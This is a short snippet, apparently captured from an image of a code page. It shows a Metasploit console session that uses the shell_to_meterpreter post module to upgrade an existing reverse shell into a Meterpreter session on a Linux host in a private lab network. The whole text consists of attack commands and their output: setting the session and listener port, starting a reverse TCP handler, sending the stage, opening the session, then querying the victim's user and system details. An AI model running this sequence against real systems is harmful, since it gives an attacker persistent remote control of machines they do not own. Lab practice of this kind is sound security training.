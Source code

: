   ```
  msf post(shell_to_meterpreter) > set SESSION 1
  SESSION => 1
  msf post(shell_to_meterpreter) > set LPORT 8080
  LPORT => 8080
  msf post(shell_to_meterpreter) > exploit

  [*] Upgrading session ID: 1
  [*] Starting exploit/multi/handler
  [*] Started reverse TCP handler on 10.10.10.4:8080 
  [*] Sending stage (847604 bytes) to 10.10.10.2
  [*] Meterpreter session 2 opened (10.10.10.4:8080 -> 10.10.10.2:60448) at 2017-11-10 15:54:38 -0500
  [*] Command stager progress: 100.00% (736/736 bytes)
  [*] Post module execution completed
  msf post(shell_to_meterpreter) > sessions -l

  Active sessions
  ===============

    Id  Name  Type                   Information                                            Connection
    --  ----  ----                   -----------                                            ----------
    1         shell cmd/unix                                                                10.10.10.4:4444 -> 10.10.10.2:57888 (10.10.10.2)
    2         meterpreter x86/linux  uid=1000, gid=1000, euid=1000, egid=1000 @ 10.10.10.2  10.10.10.4:8080 -> 10.10.10.2:60448 (10.10.10.2)
  msf post(shell_to_meterpreter) > sessions -i 2
  [*] Starting interaction with 2...

  meterpreter > getuid
  Server username: uid=1000, gid=1000, euid=1000, egid=1000
  meterpreter > sysinfo
  Computer     : 10.10.10.2
  OS           : Ubuntu 16.04 (Linux 4.10.0-35-generic)
  Architecture : x64
  Meterpreter  : x86/linux
  ```
